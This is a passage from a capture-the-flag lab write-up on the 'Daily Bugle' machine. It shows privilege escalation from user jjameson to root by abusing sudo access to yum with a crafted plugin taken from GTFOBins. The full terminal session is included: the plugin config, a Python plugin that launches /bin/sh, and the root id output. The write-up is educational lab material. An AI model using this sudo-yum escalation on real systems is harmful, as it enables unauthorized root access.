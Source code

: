 Nice, this should make for an easy root.

Lets head to gtofobins.com and crab the commands we'll need:

![daily_bugle_gtfobins.png](../assets/daily_bugle_assets/daily_bugle_gtfobins.png)

We can literally paste these commands into our shell and achieve root:

```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo /usr/bin/yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
```
